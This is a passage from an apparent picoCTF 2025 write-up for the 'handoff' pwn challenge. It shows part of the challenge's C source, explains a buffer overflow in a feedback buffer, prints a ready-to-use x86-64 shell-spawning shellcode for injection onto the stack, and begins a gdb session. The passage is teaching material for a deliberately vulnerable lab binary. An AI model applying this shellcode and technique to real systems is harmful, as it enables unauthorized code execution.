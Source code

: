```c
		}
		else if (choice == 3) {
			choice = -1;
			puts("Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: ");
			fgets(feedback, NAME_LEN, stdin);
			feedback[7] = '\0';
			break;
		}
		else {
			choice = -1;
			puts("Invalid option");
		}
	}
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);  // No buffering (immediate output)
	vuln();
	return 0;
}
```
The program does the following:
- Prints a menu with three options and asks the user for input.
- Allows the user to:
    1. Add a new recipient by providing a name (stored in the `entries` array).
    2. Send a message to a recipient by selecting an index and providing a message (stored in the `entries` array).
    3. Exit the program and provide feedback (stored in the `feedback` array).
- Contains a **buffer overflow vulnerability**:
    - The `feedback` array is only 8 bytes, but the program reads up to 32 bytes of input using `fgets(feedback, NAME_LEN, stdin)`.
- Exits the program after collecting feedback or if invalid input is provided.

Since there is no `win` function present in the source code we will likely need a shell. 

### Shellcode Injection
Since NX is disabled, we can make the program execute shellcode off the stack. Looking on shell-storm I found the following shellcode that we can use for this program. 
```python
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
```
We can input these bytes to the `msg` char array in the `entry_t` struct as it allows 64 bytes of input. 
Now, we need to figure out a way can make execution jump to the location of the `msg` char array on the stack. 
### Stack Inspection
We can use gdb to inspect the stack right after we input into the `feedback` buffer.
```
└─$ gdb handoff
gef➤  b *vuln+452
Breakpoint 1 at 0x4013ed
gef➤  r
Starting program: /home/vsingh/Downloads/CTF/picoCTF_2025/pwn/handoff/handoff 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
1
What's the new recipient's name: 
```